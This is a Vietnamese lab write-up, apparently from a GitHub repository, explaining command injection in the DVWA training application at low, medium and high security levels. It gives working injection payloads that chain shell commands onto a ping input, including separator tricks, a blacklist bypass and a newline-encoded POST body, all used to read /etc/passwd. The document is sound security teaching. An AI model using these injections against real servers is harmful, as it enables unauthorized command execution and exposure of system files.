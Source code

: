 
# Command Injection - DVWA

## 🛡️ Vulnerability: Command Injection  
Mức độ: **LOW**, **MEDIUM**, **HIGH**

---

## 🔹 LEVEL: LOW

### 📌 Description:
Web cho chúng ta nhập input đầu vào là 1 địa chỉ IP sau đó nó sẽ thực hiện lệnh ping đến địa chỉ IP đó và thực hiện trả về kết quả ở bên dưới
Thực hiện nhập một địa chỉ IP 8.8.8.8 và submit:

Ví dụ: Nhập địa chỉ IP `8.8.8.8` và bấm Submit.
![](images/image6.png)

### 🎯 Goal:
Làm cho server thực hiện các lệnh command ngoài ý muốn thông qua đầu vào.

### 🔍 Phân tích:
- Source code không thực hiện kiểm tra đầu vào.
- Input được đưa trực tiếp vào hàm `shell_exec()`.
- Ta có thể nối nhiều mệnh đề OS command vào bằng các ký tự đặc biệt.

Ví dụ:

```
8.8.8.8; ls /
```

Lúc này câu lệnh thực thi sẽ là:

```
ping -c 4 8.8.8.8; ls /
```

![](images/image2.png)

> Kết quả là cả lệnh `ping` và `ls /` đều được thực hiện.
Hoặc kéo dài ra nhiều mệnh đề hơn:

```
8.8.8.8; ls /; cat /etc/passwd
```
![](images/image9.png)
---

## 🔸 LEVEL: MEDIUM

### 🔍 Phân tích:
Ở mức này, dev đã **chặn ký tự `;` và `&&`** bằng cách đưa chúng vào **blacklist**.

![](images/image5.png)
Tuy nhiên, vẫn còn nhiều ký tự khác giúp nối thêm mệnh đề:

- `|` : chuyển output của lệnh 1 thành input của lệnh 2  
- `&` : chạy lệnh ở background  
- `` `command` `` : thực thi lệnh và trả về output  
- `$(command)` : giống như backtick  
- `||` : logic OR – chạy lệnh thứ 2 nếu lệnh đầu lỗi  

### 🧪 Thực hành:

```
8.8.8.8 & ls / & cat /etc/passwd
```
![aaa](images/image6.png)
```
8.8.8.8 | ls / | cat /etc/passwd
8.8.8.8a || ls /
```
![](images/image7.png)
---

## 🔺 LEVEL: HIGH

### 🔍 Phân tích:
- Hầu hết các ký tự có khả năng nối mệnh đề đều đã bị chặn.
- Hàm `trim()` được dùng để loại bỏ khoảng trắng, gây khó khăn hơn.
![](images/image1.png)
Tuy nhiên vẫn tồn tại **lỗi trong blacklist**:

```text
Ký tự bị chặn: "| " (pipe + dấu cách)
```

Vì vậy nếu viết là `|cat`, hoặc ` |cat`, thì sẽ **không bị blacklist chặn**.

Ví dụ:

```
8.8.8.8 |cat /etc/passwd
```
![](images/image8.png)
> ⚠️ Đây là lỗi dev sơ suất, không áp dụng cho mọi trường hợp.

---

### 🧪 Cách bypass tối ưu: **Mã hóa xuống dòng**
Sử dụng `%0A` để encode ký tự xuống dòng (`
`), PHP sẽ tự động decode:

Ví dụ gói POST:

```http
POST /vulnerabilities/exec/source/high.php
Content-Type: application/x-www-form-urlencoded

ip=8.8.8.8%0Als+%2F
```

- `%0A` → `
`
- Tác động trực tiếp đến lệnh shell

### ✅ Thực hành giả thuyết:

```
8.8.8.8%0Acat /etc/passwd
```
![](images/image10.png)
> ✅ Kết quả: **Giả thuyết đúng**

---

## 📌 Tổng kết

| Mức độ | Kỹ thuật khai thác |
|--------|--------------------|
| LOW    | `;` để nối nhiều command |
| MEDIUM | `|`, `&`, `||`, `` ` ``, `$()` |
| HIGH   | Lỗi blacklist + `%0A` (newline encode) |
